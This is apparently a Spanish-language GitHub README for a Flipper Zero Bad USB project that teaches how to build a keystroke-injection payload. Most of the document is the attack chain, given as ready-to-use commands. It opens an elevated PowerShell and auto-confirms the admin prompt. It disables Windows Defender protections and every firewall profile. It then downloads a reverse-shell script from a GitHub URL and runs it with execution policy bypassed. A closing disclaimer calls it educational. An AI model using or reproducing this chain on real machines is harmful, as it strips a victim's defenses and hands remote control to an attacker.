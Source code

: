 # REVERSE-ZERO

![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/Designer.jpeg)



# Descripción

Reverse-Zero es un proyecto de investigación y desarrollo en el ámbito del hacking, centrado en la exploración de las capacidades de programación del Flipper Zero. En particular, se enfoca en la aplicación Bad USB, que permite ejecutar cargas útiles automatizadas a través de un dispositivo USB.

Este proyecto representa mi primera incursión en el mundo del hacking, donde he investigado a fondo el uso de PowerShell y otros lenguajes de scripting para aprovechar las funcionalidades del Flipper Zero.

# Características

Automatización de scripts para Bad USB en Flipper Zero.

Desarrollo de payloads personalizados con PowerShell.

Análisis de seguridad y pruebas de penetración controladas.

# Requisitos

Para utilizar este proyecto, necesitarás:

Un dispositivo Flipper Zero.

Un editor de texto (VS Code, Notepad++, etc.).

Conocimientos básicos de PowerShell.


# Instalación y uso.

1.  Clonar el repositorio
      ```sh g
       git clone https://github.com/90l3m0np13/Reverse-Zero/blob/main/REVERSE_SHELL.txt
      ```
2.  Abre el archivo en un editor de texto y cambia los apartados de IP y Puerto por los de tu máquina atacante.
3.  Carga los scrips en tu Flipper Zero


     - Copia los archivos al directorio correspondiente en la memoria del Flipper.
     - Ejecuta el payload desde la aplicación Bad USB.

# Crea tu ReverseShell desde 0



1. Crea una reverseshell desde 0, o hazla en la página https://www.revshells.com/. 





1. Crea un archivo TXT compuesto por DELAYS, ENTERS Y STRINGS adecuandolos a tu gusto. (Tienes el ejemplo en el proyecto de una reverseshell creada por mi).





1.  DELAY = La función que hace que el procesador espere "delay(1000); //provoca un retardo de 1000ms = 1 segundo".
2.  ENTER = Simula la acción de la tecla Intro del teclado.
3.  STRING = Se trata de una secuencia de caracteres usados para representar el texto.

1.  Sabiendo esto, vamos a empezar a programar nuestro txt.




1.  Con este comando en String abrimos la pestaña de Ejecutar.
      ```sh g
      GUI r
      ```



1.  Abrimos Powershell.
      ```sh g
      powershell
      ```
1.  Lo ejecutamos como administrador.
      ```sh g
      CTRL-SHIFT ENTER
      ```

1.  Le damos a que sí cuando nos pregunte si queremos abrirlo como administrador.
      ```sh g
      ALT s
      ```
1.  Utilizamos este String para para deshabilitar el Windows Defender.
      ```sh g
      powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -  
      DisableIntrusionPreventionSystem $true'
      ```
1.  Desactivamos el Firewall.
      ```sh g
      Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
      ```
1.  Descargamos el ReverseShell con el String Invoke-WebRequest (Yo en mi caso lo tengo alojado en github).
      ```sh g
      Invoke-WebRequest -Uri "https://raw.githubusercontent.com/alvaroarenas69/scrips-powershell/main/reverseshell.ps1" -OutFile "reverseshell.ps1"
      ```
1.  Ejecutamos el ReverseShell.
      ```sh g
      powershell -ExecutionPolicy Bypass -File ".\reverseshell.ps1"
      ```
1.  Una vez creado el txt, lo guardamos. Conectamos el Flipper al PC mediante la aplicación qflipper, que podemos descargar en el siguiente      enlace: https://flipperzero.one/update
2.  Dentro de la aplicación, buscamos el fichero Read File y pegamos el txt en la carpeta BADUSB.

    
     ![imagen](https://github.com/90l3m0np13/Reverse-Zero/blob/main/im%C3%A1genes/badusb.png)
 4.  Y por último, solo queda ejecutar el Scrip que hemos creado desde el flipper zero.



# Conclusión 

Este proyecto está diseñado con fines educativos y de investigación en seguridad informática. Se recomienda su uso únicamente en entornos controlados y con el consentimiento explícito de los propietarios de los sistemas involucrados. El uso indebido de estas herramientas puede tener implicaciones legales y éticas. El autor no se responsabiliza de cualquier daño o consecuencia derivada de su uso inapropiado.





















